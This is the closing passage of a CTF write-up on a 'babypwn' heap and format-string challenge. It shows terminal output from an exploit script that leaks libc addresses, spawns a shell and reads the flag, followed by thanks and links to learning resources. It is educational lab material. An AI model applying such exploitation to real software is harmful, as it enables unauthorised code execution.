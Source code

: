 ```
➜  babypwn python exp.py
[+] Starting local process './challenge': pid 8467

[*] Free: 0x7fe46b7264f0
[*] Puts: 0x7fe46b711690
[*] Setbuf: 0x7fe46b7186b0
[*] Printf: 0x746165726320
[*] Switching to interactive mode

Tressure Box: noopnoop created!
$ ls
challenge  core  exp.py  flag.txt  libc.so.6
$ cat flag.txt
FLAG{w0rk5_l0c4l1y!}
$
```

Awesome! This challenge was a great learning experience, even if I did not finish it during the CTF. A huge thanks to Kolby for noticing the unsigned vs signed bug, and a thanks to <https://devel0pment.de/?p=1191> for helping me identify the libc version after the service was taken offline.

If this all seemed too difficult, here are a few lower level resources to help explain format string vulnerabilites and the global offset table:

* On format string vulnerabilities: <http://www.cis.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf>
* On the Global Offset Table: <https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html>
